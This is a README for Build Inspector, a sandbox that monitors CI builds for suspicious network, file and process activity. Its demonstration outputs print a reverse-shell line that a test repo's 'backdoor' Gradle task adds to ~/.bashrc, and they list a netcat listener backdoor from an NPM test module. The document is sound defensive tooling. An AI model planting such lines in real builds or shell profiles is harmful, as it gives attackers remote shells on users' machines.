 # Build Inspector

Build Inspector is a forensic sandbox for Continuous Integration environments.
Ever wonder what's happening during your builds? Build Inspector monitors network activity, file system changes, and running processes, making it easier to spot unintended and potentially dangerous activities. Using a sandboxed environment, build operations will happen in isolation without compromising the machine.

## Requirements

- [Ruby](https://www.ruby-lang.org/en/downloads/) (2.2.3 recommended)
- [Vagrant](https://www.vagrantup.com/)
- [Bundler](http://bundler.io/)

Once those are installed, add the [Sahara Vagrant plugin](https://github.com/jedi4ever/sahara)
and bundle install this project's dependencies:

```bash
vagrant plugin install sahara
git clone https://github.com/sourceclear/build-inspector.git
bundle install
```

## Running

Once you're set up, you'll work with Build Inspector from inside the repository's directory:

```bash
cd build_inspector
```

Build Inspector does not manage Vagrant for you, so you'll need to do that yourself.
The first time you use it, you'll need to start Vagrant and build the image:

```bash
vagrant up
```

Once vagrant is started, save a snapshot with:

```bash
vagrant sandbox on
```

### Usage

```
Usage inspector [options] <git repo path>
    -h, --help                       Display this screen
    -n, --no-rollback                Do not roll back the virtual machine state after running
    -v, --verbose                    Be verbose
    -c, --config <PATH>              Use configuration file at <PATH>, default=config.yml
    -p, --process <PATH>             Only process evidence at <PATH>
    -b, --branch <BRANCH>            Clone <BRANCH> from repository URL
        --url                        Git repo path is a URL
        --gem                        Perform a GEM based build
        --gradle                     Perform a Gradle based build
        --maven                      Perform a Maven based build
        --npm                        Perform a NPM based build
```

### Gradle Example

```bash
./inspector --gradle test-repos/TotallyLegitApp
```

The above project has a task called `backdoor` that adds a reverse
connect shell to `~/.bashrc`.

After running, you should see this at the bottom of the output:

```
changed: ~/.bashrc
--- /backup/root/.bashrc	2014-02-19 21:43:56.000000000 -0500
+++ /root/.bashrc	2015-11-08 13:07:40.579626388 -0500
@@ -97,3 +97,5 @@
 #if [ -f /etc/bash_completion ] && ! shopt -oq posix; then
 #    . /etc/bash_completion
 #fi
+
+bash -c "bash -i>&/dev/tcp/localhost/1337 0>&1 &disown"&>/dev/null
```

In addition, you'll have a file that looks like
`evidence-TotallyLegitApp-201523110032412.zip` which has all the
network and process activity, file system changes, and any new processes.

### Bundler Example

```bash
./inspector --gem test-repos/harmless-project
```

This bundler project has a gem that pings Google during its
installation.

Run it with Build Inspector and you'll see a list of domains
that the machine tried to connect to.

```
Hosts contacted:
  www.google.com (74.125.224.113)                                    1.3K
```

### NPM Example

```bash
./inspector --npm test-repos/ann-pee-am
```

Inspecting this NPM project should yield the following output:

```
The following processes were running during the build:
  - /bin/sh -i
  - nc -l 0.0.0.0 8080
```

That's because the NPM project depends on a module that opens a
persistent backdoor using `netcat`.

### Configuration

Build Inspector monitors all network and file system activities. To ignore
hosts or exclude directories from the monitoring, create and add a
`config.yml` in the repository that looks like this:

```yaml
---

commands: bundle install --jobs 2

host_whitelist:
  - 10.0.2.2 # Vagrant's IP
  - 8.8.8.8 # Ignore DNS
  - bundler.rubygems.org
  - rubygems.global.ssl.fastly.net
  - rubygems.org

evidence_files:
  exclude:
    - /home/vagrant/.gem
  include:
    - /etc
```

There are examples for different build systems in the [configs](configs)
directory. You may copy the appropriate configs for your build system
to the root of this project or you can write one from scratch.

## Reporting Suspicious Builds

Help us understand what threats are out there in the wild by submitting any suspicious builds you encounter. This helps us protect against emerging threats, and ensure they're more widely known.

To submit a suspicious build, just click this link to create a new issue:
[Suspicious Build Issue Submission](https://github.com/sourceclear/build-inspector/issues/new?title=Suspicious%20Build%20Evidence&body=Where%20did%20you%20find%20this%20project%3F%0A%0AWhy%20do%20you%20think%20it%27s%20suspicious%3F%0A%0AAny%20other%20important%20details%3F%0A%0AHow%20are%20you%20doing%20today%3F).

Then just drag the evidence zip file to the issue you just created to attach it. Thanks in advance!

## Troubleshooting

If you're having a problem, try running `rake vagrant:test` and ensure your environment is setup correctly.

### Gradle Build Fails with java.lang.OutOfMemoryError

A build may work on the host machine but fail with BuildInspector because the Vagrant virtual machine has less memory available than the host machine. There are two ways to work around this issue.

#### Option 1: Modify [Vagrantfile](Vagrantfile)

This is the most direct option. This file is used to setup some properties of the virtual machine. The relevant section is:
```ruby
config.vm.provider 'virtualbox' do |vb|
  vb.customize ['modifyvm', :id, '--natdnsproxy1', 'off']
  vb.customize ['modifyvm', :id, '--natdnshostresolver1', 'off']
  vb.memory = 1024
end
```

Simply adjust `vb.memory = 1024` to some other number such as `vb.memory = 2000` then rebuild the machine with `rake vagrant:rebuild`. The Java VM determines heap space as a portion of total memory available. Increasing the memory will also increase the heap space.

#### Option 2: Adjust Java VM Heap Size

If you're unable to adjust the memory requirements for the Vagrant virtual machine, you can try to tell Gradle to tell the Java VM to allocate more heap space. This can be done by adding the following command to your configuration:

```bash
echo org.gradle.jvmargs=-Xmx2G >> gradle.properties
```

For example, `gradle.yml` is:

```yaml
commands: gradle build
```

After adding this command it would be:

```yaml
commands:
  - echo org.gradle.jvmargs=-Xmx2G >> gradle.properties
  - gradle build
```

## Development

When you want to experiment, just do:
`vagrant sandbox on`

Then, make all the changes you want to the image. If you'd like to save the changes, do:
`vagrant sandbox commit`

Otherwise, you can wipe out the changes with:
`vagrant sandbox rollback`

There are also a number of Rake tasks:
```
rake vagrant:commit    # Commits the machine's state
rake vagrant:destroy   # Destroy Vagrant image
rake vagrant:halt      # Gracefully stop Vagrant
rake vagrant:rebuild   # Equivalent to a `vagrant destroy && vagrant up`
rake vagrant:reload    # Equivalent to a `vagrant halt && vagrant up`
rake vagrant:rollback  # Restores the previously committed machine state
rake vagrant:test      # Check environment to determine if build-inspector should work
rake vagrant:up        # Start Vagrant
rake vagrant:update    # Upgrade Vagrant image
```
